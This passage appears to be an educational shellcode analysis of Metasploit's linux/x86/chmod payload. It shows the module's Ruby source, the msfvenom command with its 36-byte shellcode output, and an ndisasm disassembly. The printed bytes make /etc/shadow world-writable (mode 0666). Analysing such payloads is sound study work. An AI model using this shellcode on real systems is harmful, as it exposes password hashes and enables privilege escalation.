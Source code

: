 The source code of this payload can be accessed at:
https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/chmod.rb

```ruby
payload	=
      "\x99\x6a\x0f\x58\x52" +
      Rex::Arch::X86.call(file.length + 1) + file + "\x00" +
      "\x5b" + Rex::Arch::X86.push_dword(mode) +
      "\x59\xcd\x80\x6a\x01\x58\xcd\x80";
```

The actual payload created by msfvenom is:
```zsh
$ msfvenom -p linux/x86/chmod -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] =
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
```

###### Ndisasm

At this point ndisasm will aid our analysis. We provide the output of msfvenom as input to ndisasm:

```zsh
$ msfvenom -p linux/x86/chmod | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes

00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80C000000        call 0x16
0000000A  2F                das
0000000B  657463            gs jz 0x71
0000000E  2F                das
0000000F  7368              jnc 0x79
00000011  61                popa
00000012  646F              fs outsd
00000014  7700              ja 0x16
00000016  5B                pop ebx
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
0000001D  CD80              int 0x80
0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
```
